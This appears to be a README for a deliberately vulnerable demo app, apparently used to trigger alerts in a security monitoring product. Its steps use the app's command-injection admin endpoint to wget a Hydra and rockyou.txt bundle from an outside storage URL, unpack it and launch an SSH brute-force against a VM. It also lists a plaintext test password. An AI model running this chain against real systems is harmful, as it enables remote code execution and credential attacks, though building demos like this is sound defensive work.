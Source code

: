 # Hydra scenario

This application lets you write messages, whatever they are (it is certainly possible to hack the message form by itself).
This is entirely managed in-memory, so dev team decided to add endpoints where you can check your log file and decide to load messages directly from the log in case of a restart.

Hitting the http://{yourhost}:{port}/ will let you add messages. 

Hitting http://{yourhost}:{port}/admin lets you start the actual hack by passing command

# Prerequisites
Prepare a VM with ssh enabled and get its ip to launch hydra against this specific machine.

Also you can add a user Molly with this password 04Darter_Dew to ensure Hydra will be able to connect on the VM you hosted.
You can change the username and adapt the 7th command.

The sapp.tar.gz file is containing hydra pre-compiled for Ubuntu (only tested on Ubuntu), the rockyou.txt password file, and the launch script to be set in the url to avoid PATH issues.
The file is available directly from here and also from the link in the steps below.

# Steps

1. Start browsing the app at http://{yourhost}:{port}/, explaining this is the same scenario as having [EVAL command available in Redis](https://redis.io/commands/eval).
2. Then move to the admin page and show the tail or cat command. 
3. Explain you have those links to decide if you'll hydrate messages from the log file or not. But there is an issue as the cat/tail link let you run arbitrary command on the host.
4. Type in the url bar http://{yourhost}:{port}/admin/ops?cmd=wget&args=https://storage.googleapis.com/nwlw-raw-data/sapp.tar.gz . This will download a Hydra pre-packed zip file. (should triggered the 1st alert in LW)
5. Go to http://{yourhost}:{port}/admin/ops?cmd=tar&args=-xzf,sapp.tar.gz Uncompress the file
5. Go to http://{yourhost}:{port}/admin/ops?cmd=./launch.sh&args={target machine ip}